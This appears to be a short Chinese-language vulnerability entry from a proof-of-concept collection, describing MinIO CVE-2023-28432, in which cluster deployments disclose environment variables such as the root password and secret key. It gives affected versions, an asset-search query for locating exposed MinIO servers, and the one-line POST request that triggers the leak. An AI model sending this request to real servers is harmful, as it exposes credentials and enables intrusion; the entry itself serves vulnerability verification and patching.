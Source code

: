 # MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

# MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

## 漏洞描述

Minio 是一个多云对象存储框架。在从RELEASE.2019-12-17T23-16-33Z开始到RELEASE.2023-03-20T20-16-18Z之前的集群部署中，MinIO存在漏洞发送请求后返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致信息泄露。分布式部署的所有用户都会受到影响

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## 网络测绘

```
app="minio"
```

## 漏洞复现

登陆页面

![image-20230417093052971](images/image-20230417093052971.png)

验证POC (默认端口:9000)

```
POST /minio/bootstrap/v1/verify
```

![image-20230417093122553](images/image-20230417093122553.png)

